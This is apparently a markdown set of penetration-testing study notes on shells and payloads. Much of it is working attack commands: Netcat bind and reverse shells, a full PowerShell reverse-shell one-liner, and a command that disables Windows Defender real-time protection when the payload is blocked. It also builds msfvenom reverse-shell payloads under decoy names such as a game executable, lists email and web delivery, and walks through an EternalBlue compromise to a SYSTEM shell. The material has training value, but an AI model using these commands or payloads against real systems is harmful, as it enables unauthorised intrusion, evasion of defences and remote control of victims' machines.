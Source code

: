 # 🐚 Shells & Payloads  
*Delve into the forbidden arts of initial compromise, where whispers in the void become footholds in vulnerable hosts. This module equips the practitioner with eldritch techniques to summon shells and craft payloads—essential rites in breaching the veil between attacker and target, be they Windows or Linux systems.*

> *“To speak with the machine, one must first teach it to listen.”*

<details>
<summary><h1>📌 Shell Basics</h1></summary>

&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h2>⏩ Bind Shells</h2></summary>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Basic Bind Shell with Netcat</h3></summary>  

**Target Machine: Starting Netcat listener**  

```bash
nc -lvnp <PORT>
```

**Attack Machine: Connecting to target**  

```bash
nc -nv <IP> <PORT>
```

> **Note:** Know that this is not a proper shell. It is just a Netcat TCP session we have established. We can see its functionality by typing a simple message on the client-side and viewing it received on the server-side.

</details>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Establishing a Basic Bind Shell with Netcat</h3></summary>  

**Target Machine: Starting Netcat listener**  

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l <PORT> > /tmp/f
```  

**Attack Machine: Starting Netcat listener**  

```bash
nc -nv <IP> <PORT>
```

> **Note:** Keep in mind that we had complete control over both our attack box and the target system in this scenario, which isn't typical.

</details>

</details>

&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h2>⏪ Reverse Shells</h2></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Basic Reverse Shell with Netcat</h3></summary>  

**Attack Machine: Starting a listener**  

```bash
sudo nc -lvnp <PORT>
```

**Target Machine(Windows - CMD): Connect to the Attack Machine**  
```cmd
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

If you get an error like this one:  
```cmd
At line:1 char:1
+ $client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>) ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

Disable the antivirus using Powershell
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

Re-run the CMD command.

</details>
</details>


</details>

<details>
<summary><h1>📦 Payloads</h1></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Metasploit - Example</h3></summary>  

```bash
sudo msfconsole
```

**Inside the MSF Console**  

Searching Within Metasploit  

```bash
search smb
```

Selecting an Exploit  

```bash
use 56
```

Examining an Exploit's Options  

```bash
options
```

Setting Options  

```bash
set RHOSTS <TARGET IP>
set SMBUser <USER>
set SMBPass <PASSWORD>
set LHOST <ATTACKER IP>
set LPORT <ATTACKER PORT>
set PAYLOAD windows/meterpreter/reverse_tcp
```

Exploits Away  

```bash
run

# [*] Meterpreter session 1 opened (<ATTACKER IP>:<ATTACKER PORT> -> <TARGET IP>:<TARGET PORT>) at 2025-06-20 10:56:44 -0500

# (Meterpreter 1)(C:\Windows\system32) > 
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Crafting payloads with MSFvenom</h3></summary>  

**Attack Machine: List Payloads** 

```bash
msfvenom -l payloads
```

**Attack Machine: Building A Stageless Payload** 
  
```bash
msfvenom -p <PAYLOAD> LHOST=<ATTACKER IP> LPORT=<ATTACKER PORT> -f <FILE FORMAT> > <OUTPUT FILE>
```

Examples:  

> **Linux:** msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf

> **Windows:** msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > GTA_SA.exe  

**Target Machine: Download and execute** 

There are countless ways this can be done. Here are just some of the common ways:

> Email message with the file attached.  

> Download link on a website.  

> Combined with a Metasploit exploit module (this would likely require us to already be on the internal network).  

> Via flash drive as part of an onsite penetration test.  

The payload in this form would almost certainly be detected by Windows Defender AV.


</details>
</details>


<details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
<summary><h1>🪟 Windows Shells</h1></summary>  
<details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
<summary><h3>Infiltrating Windows</h3></summary>  
<details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
<summary><h4>Enumerating Windows & Fingerprinting Methods</h4></summary>  

When utilizing ICMP to determine if the host is up, a typical response from a Windows host will either be 32 or 128. A response of or around 128 is the most common response you will see.  

**Attack Machine:** Ping target
```bash
PING <WINDOWS IP> (<WINDOWS IP>): 56 data bytes
64 bytes from <WINDOWS IP>: icmp_seq=0 ttl=128 time=102.920 ms
64 bytes from <WINDOWS IP>: icmp_seq=1 ttl=128 time=9.164 ms
64 bytes from <WINDOWS IP>: icmp_seq=2 ttl=128 time=14.223 ms
64 bytes from <WINDOWS IP>: icmp_seq=3 ttl=128 time=11.265 ms
```

**Attack Machine:** Initialize an OS Identification scan against our target  

```bash
sudo nmap -v -O <WINDOWS IP>
```

**Attack Machine:** For each port Nmap sees as up, it will attempt to connect to the port and glean any information it can from it.  

```bash
sudo nmap -v <WINDOWS IP> --script banner.nse
```

> The examples shown above are just a few ways to help fingerprint and determine if a host is a Windows machine. It is by no means an exhaustive list, and there are many other checks you can do.

</details>

<details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
<summary><h4>Payload Types to Consider</h4></summary>

**DLLs:** File used in Microsoft operating systems to provide shared code and data that can be used by many different programs at once. Injecting a malicious DLL or hijacking a vulnerable library on the host can elevate our privileges to SYSTEM and/or bypass User Account Controls.

**Batch:** Text-based DOS scripts utilized by system administrators to complete multiple tasks through the command-line interpreter.  

**VBS:** Lightweight scripting language based on Microsoft's Visual Basic. It is typically used as a client-side scripting language in webservers to enable dynamic web pages. VBS is dated and disabled by most modern web browsers but lives on in the context of Phishing and other attacks aimed at having users perform an action such as enabling the loading of Macros in an excel document or clicking on a cell to have the Windows scripting engine execute a piece of code.

**MSI:** When attempting to install a new application, the installer will look for the .msi file to understand all of the components required and how to find them. We can use the Windows Installer by crafting a payload as an .msi file. Once we have it on the host, we can run msiexec to execute our file, which will provide us with further access, such as an elevated reverse shell.

**Powershell:** It is both a shell environment and scripting language. PowerShell can provide us with a plethora of options when it comes to gaining a shell and execution on a host, among many other steps in our penetration testing process.

</details>

<details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
<summary><h4>Procedures for Payload Generation, Transfer, and Execution</h4></summary>

* [MSFVenom & Metasploit-Framework](https://github.com/rapid7/metasploit-framework): MSF is an extremely versatile tool for any pentester's toolkit. It serves as a way to enumerate hosts, generate payloads, utilize public and custom exploits, and perform post-exploitation actions once on the host. Think of it as a swiss-army knife.

* [Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings): Here, you can find many different resources and cheat sheets for payload generation and general methodology.

* [Mythic C2 Framework](https://github.com/its-a-feature/Mythic): Alternative option to Metasploit as a Command and Control Framework and toolbox for unique payload generation.

* [Nishang](https://github.com/samratashok/nishang): Framework collection of Offensive PowerShell implants and scripts. It includes many utilities that can be useful to any pentester.

* [Darkarmour](https://github.com/bats3c/darkarmour): Tool to generate and utilize obfuscated binaries for use against Windows hosts.

</details>

</details>

<details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
<summary><h3>Example Compromise Walkthrough</h3></summary>

**Attack Machine: Enumerate the host**  

```bash
sudo nmap -sS -sV -sC -v -A -O <WINDOWS IP> --script banner.nse -oX nmap_target_xml_scan.xml > /dev/null 1 2>&1

xsltproc nmap_target_xml_scan.xml -o nmap_target_html_scan.html
```

**Attack Machine: Start Metasploit**  

Open msfconsole and search for the for the identified service.

```bash
msfconsole
```

**Attack Machine: Determine an Exploit Path**  

```bash
use auxiliary/scanner/smb/smb_ms17_010 
show options
set RHOSTS <WINDOWS IP>
run
```

Now, we can see from the check results that our target is likely vulnerable to EternalBlue. Let's set up the exploit and payload now, then give it a shot.

**Attack Machine: Choose & Configure Our Exploit & Payload**

```bash
search eternal
use 2
options
```

Since I have had more luck with the psexec version of this exploit, we will try that one first. Let's choose it and continue the setup.

**Attack Machine: Validate Our Options**  

```bash
show options
```

This time, we kept it simple and just used a windows/meterpreter/reverse_tcp payload.

**Attack Machine: Execute Our Attack**  

```bash
exploit

# [*] Started reverse TCP handler on <ATTACKER IP>:4444 
# [*] <WINDOWS IP>:445 - Target OS: Windows Server 2016 Standard 14393
# [*] <WINDOWS IP>:445 - Built a write-what-where primitive...
# [+] <WINDOWS IP>:445 - Overwrite complete... SYSTEM session obtained!
```

Now that we have an open session through Meterpreter, we are presented with the meterpreter > prompt
If you wish to interact with the host directly, you can also drop into an interactive shell session on the host from Meterpreter.

**Attack Machine: Verify Our Session**  

```bash
getuid

# Server username: NT AUTHORITY\SYSTEM
```

From here, we can utilize Meterpreter to run further commands to gather system information, steal user credentials, or use another post-exploitation module against the host.


**Attack Machine: Identify Our Shell**  
```bash
shell

# Process 4844 created.
# Channel 1 created.
# Microsoft Windows [Version 10.0.14393]
# (c) 2016 Microsoft Corporation. All rights reserved.

# C:\Windows\system32>
```

When we executed the Meterpreter command shell, it started another process on the host and dropped us into a system shell.


</details>

<details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
<summary><h3>CMD or PowerShell</h3></summary>

<details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
<summary><h4>Differences</h4></summary>

# CMD vs PowerShell Comparison

| Feature          | CMD                              | PowerShell                      |
|------------------|----------------------------------|---------------------------------|
| **Origin**       | Original MS-DOS shell            | Designed to expand CMD's capabilities |
| **Command Language** | Native MS-DOS commands (`dir`, `ipconfig`) | Supports both MS-DOS and **.NET cmdlets** (`Get-ChildItem`, `Copy-Item`) |
| **Input/Output** | Text-based                       | **.NET objects** (structured data) |
| **Scripting**    | Basic batch files (`.bat`, `.cmd`) | Advanced scripts (`.ps1`) with loops, modules, and functions |
| **Command History** | **No** session logging | Keeps history of executed commands |
| **Security**     | No Execution Policy restrictions | Restricted by **Execution Policy** (e.g., `Restricted`, `RemoteSigned`) and UAC |
| **Availability** | Works on **all Windows versions** | Only available on **Windows 7+** |
| **Extensibility** | Limited to built-in commands | Supports **custom modules** and cmdlets |


</details>

<details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
<summary><h4>Which one is the right one to use?</h4></summary>

**Use CMD when:**

* You are on an older host that may not include PowerShell.

* When you only require simple interactions/access to the host.

* When you plan to use simple batch files, net commands, or MS-DOS native tools.

* When you believe that execution policies may affect your ability to run scripts or other actions on the host.

**Use PowerShell when:**

* You are planning to utilize cmdlets or other custom-built scripts.

* When you wish to interact with .NET objects instead of text output.

* When being stealthy is of lesser concern.

* If you are planning to interact with cloud-based services and hosts.

* If your scripts set and use Aliases.

</details>

> **Note:** PowerShell is more powerful but leaves traces (command history). CMD is lightweight but lacks advanced features.

</details>

</details>